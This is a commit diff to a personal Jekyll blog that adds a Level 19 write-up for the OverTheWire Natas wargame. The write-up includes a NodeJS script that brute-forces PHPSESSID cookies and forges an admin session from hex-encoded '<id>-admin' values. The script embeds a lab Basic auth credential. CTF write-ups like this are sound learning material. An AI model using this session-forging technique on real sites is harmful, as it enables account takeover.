

Before and after one commit to axiomiety/axiomiety.github.io, a Jekyll site: the page built from _posts/2019-10-06-natas2.md, in a window 1280 px wide. Shown: the top 2277 px of the page at 63% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
natas 20

````diff
--- a/_posts/2019-10-06-natas2.md
+++ b/_posts/2019-10-06-natas2.md
@@ -26,7 +26,6 @@
 
 I fired up Burp Intruder but given I only have the community edition, which throttles requests, it turned out to be faster to write the NodeJS snippet below:
 
-
 {% highlight javascript %}
 const got = require('got');
 
@@ -51,3 +50,33 @@
 DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br>
 ...
 ```
+
+## Level 19 ##
+
+We're told the code for this level is similar to the previous one, but that the format of session ID (`PHPSESSID`) differs.
+
+Using Burp's sequencer I gathered close to 10,000 tokens. A quick run through `sort | uniq` led to a list of 640 unique tokens. I ran through those fairly quickly with the below:
+
+{% highlight javascript %}
+const got = require('got');
+const fs = require('fs');
+
+const sessionIds = fs.readFileSync('natas19.tokens.uniq','utf8').split('\r\n'); // there are 640
+sessionIds.forEach( (sessionId) => {
+  got.get('http://natas19.natas.labs.overthewire.org/index.php?debug', {
+    headers: {
+      'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
+      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
+      {
+        if (sessionId && !resp.body.includes('regular user')) {                                                                   console.log(`sessionId: ${sessionId} + ${resp.body}`);
+        }                                                                                                                     });
+});
+{% endhighlight %}
+
+But none of them worked - something wasn't right. From looking at the tokens, it was clear there was a part that was static: `2d616263`. This turned out to be hex for `-abc`, `abc` being the username I originally tried to log in with!
+
+Essentially I could re-use the code for natas18, but would need to append `-admin` to each session id and convert it to hex instead. A few tries later, we're in!
+
+For the record the session was derived as: `const s = Buffer.from(`${sessionId}-admin`).toString('hex');`
+
+## Level 20
````
